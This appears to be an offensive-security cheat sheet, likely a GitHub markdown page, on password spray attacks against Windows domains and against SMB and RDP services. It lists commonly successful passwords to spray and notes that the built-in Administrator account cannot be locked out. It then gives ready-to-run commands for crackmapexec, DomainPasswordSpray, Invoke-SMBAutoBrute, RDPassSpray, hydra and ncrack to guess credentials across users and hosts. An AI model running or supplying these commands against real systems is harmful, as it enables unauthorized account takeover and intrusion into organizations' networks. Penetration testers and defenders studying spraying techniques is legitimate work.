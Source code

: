 # Password Spray Attack

### Password spray attacks use one password against multiple users, usually gathered in a users wordlist.

### They are also preferred from brute-force attacks due to prevention of account lockouts.

## TIP: The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.

#### Tools: hydra, RDPassSpray.py, MailSniper, SprayingToolkit, Metasploit (auxiliary/scanner/smb/smb_login) example

### Most of the time the best passwords to spray are :

 - P@ssw0rd01 , Password123 , Password1 , Hello123 , mimikatz

 - Welcome1 / Welcome01

 - $Companyname1 : $Microsoft1

 - SeasonYear : Winter2019* , Spring2020! , Summer2018? , Summer2020 , July2020!

 - Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)

 - Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)

## Spray a pre-generated passwords list

#### 1) Using crackmapexec and mp64 to generate passwords and spray them against SMB services on the network.

    crackmapexec smb 10.0.0.1/24 -u Administrator -p '(./mp64.bin Pass@wor?l?a)'

#### 2) Using DomainPasswordSpray to spray a password against all users of a domain https://github.com/dafthack/DomainPasswordSpray

Create a userlist 

    Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name | Out-File users.txt 

Use Invoke-DomainPasswordSpray

    Invoke-DomainPasswordSpray -Password Summer2021! -Verbose (Automatically creates a userlist from the users in the domain and sprays the password)

    Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

#### 3) SMBAutoBrute https://github.com/Shellntel/scripts/blob/master/Invoke-SMBAutoBrute.ps1

    Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1"

## Spray passwords against the RDP service

#### 1) Using RDPassSpray to target RDP services https://github.com/xFreed0m/RDPassSpray

    python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]

#### 2) Hydra

    hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://IP_ADDRESS

#### 3) ncrack

    ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://IP_ADDRESS

## BadPwdCount Attribute

### The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

    crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users

